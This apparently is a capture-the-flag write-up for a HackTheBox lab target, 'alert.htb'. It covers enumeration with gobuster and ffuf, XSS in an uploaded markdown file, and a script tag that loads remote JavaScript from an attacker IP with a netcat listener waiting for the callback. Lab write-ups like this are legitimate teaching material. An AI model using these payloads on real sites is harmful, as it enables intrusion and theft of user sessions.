










As I said in previous step, in the webpage, we have the option to upload files, and if we navegate through the different options, we can see a message in the “about us” option.




The Gobuster tool will allow us to scan for hidden resources such as subdomains, directories, and parameters.
Let's look for hidden subdomains. 
```bash
$ sudo gobuster dir -u alert.htb -w /usr/share/wordlists/dirb/common.txt 
```


We can see the same that we saw in our browser. So lets try to do an enumeration but with another tool, with Ffuf to compare the results and to try to find more information.
```bash
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -H 'Host: FUZZ.alert.htb' -u http://alert.htb -fw 20
```


From the output, we see statistics has 42 words. We add the statistics subdomain to our /etc/hosts file.
```bash
$ sudo sed -i '/10.10.11.44 alert.htb/ s/$/ statistics.alert.htb/' /etc/hosts
```
And now we try to access to this subdomain in our browser and we see a login webpage but we don't have any credentials. So we can change our way and try to upload a markdown file as we saw before.



We can create a simple markdown file to try to upload.
```bash
$ nvim test.md
```


We can see that this works perfectly



So we can try to confirm that this webpage is vulnerable to XXS (Cross-Site Scripting) . We can go again to our test.md and put:
```bash
<script>alert(1)</script>
```
If we see "alert" that means that is vulnerable to XXS



Next, we modify the payload to load an external file using a `<script>` tag, setting the `src` attribute to point to the URL of our remote JavaScript file, which will be requested and executed by the browser.
```bash
<script src="http://10.10.14.15:4444/pwn.js"></script>
```


After that, we start a Netcat listener on port 4444 to capture the incoming request for the JavaScript file.
```bash
$ nc -lvnp 4444   
```


We then upload the updated payload and open the markdown file. When we check the Netcat listener, we can see that the request for the external script has been successfully received.




[Back](README.md)